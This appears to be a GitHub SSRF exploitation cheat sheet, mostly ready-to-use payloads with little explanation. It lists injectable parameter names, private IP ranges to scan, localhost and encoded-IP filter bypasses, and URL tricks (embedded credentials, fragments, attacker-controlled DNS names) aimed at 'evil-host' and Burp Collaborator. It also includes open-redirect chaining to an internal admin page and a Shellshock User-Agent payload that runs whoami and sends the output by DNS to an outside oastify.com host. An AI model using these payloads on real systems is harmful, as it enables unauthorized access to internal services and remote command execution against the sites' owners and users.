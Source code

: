 ## Index:

1. [SSRF Vulnerability Overview](#ssrf)
2. [Common SSRF Endpoints](#common-ssrf-endpoints)
3. [Tips](#tips)
   - [Port and Path Exploitation](#port-and-path-exploitation)
   - [File Uploads](#file-uploads)
   - [Internal Private IPv4 Networks](#internal-private-ipv4-networks)
4. [Common Method (API Parameter)](#common-method-api-parameter)
5. [Blind Method](#blind-method)
   - [Using Burp Collaborator in Referer Header](#using-burp-collaborator-in-referer-header)
   - [Shellshock Exploitation via SSRF](#shellshock-exploitation-via-ssrf)
6. [Bypassing Common SSRF Defenses](#bypassing-common-ssrf-defenses)
   - [SSRF with Blacklist-Based Input Filters](#ssrf-with-blacklist-based-input-filters)
   - [SSRF with Whitelist-Based Input Filters](#ssrf-with-whitelist-based-input-filters)
     - [Embedding Credentials in a URL](#embedding-credentials-in-a-url)
     - [Using URL Fragment for Bypass](#using-url-fragment-for-bypass)
     - [DNS Naming Hierarchy Bypass](#dns-naming-hierarchy-bypass)
   - [Bypassing SSRF Filters via Open Redirection](#bypassing-ssrf-filters-via-open-redirection)

## SSRF
This vulnerability helps attacker to send request to back-end systems. To learn >> https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf

## Common SSRF Endpoints
```
dest=
path=
window=
next=
site=
reference=
data=
load=
html=
validate=
page=
return=
callback=
domain=
feed=
view=
dir=
request-baskets=
dict=
pdf=
file=
imageuri=
url=
key=
.json=
oauth=
redirect=
api=
dashboard=
config.=
```
### Tips
1. Try with port number, path.
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713
3. If you do want to look for internal services, here’s a list of private IPv4 networks that you could scan for services:

    10.0.0.0/8

    127.0.0.1/32

    172.16.0.0/12

    192.168.0.0/16
## Commom method (api parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
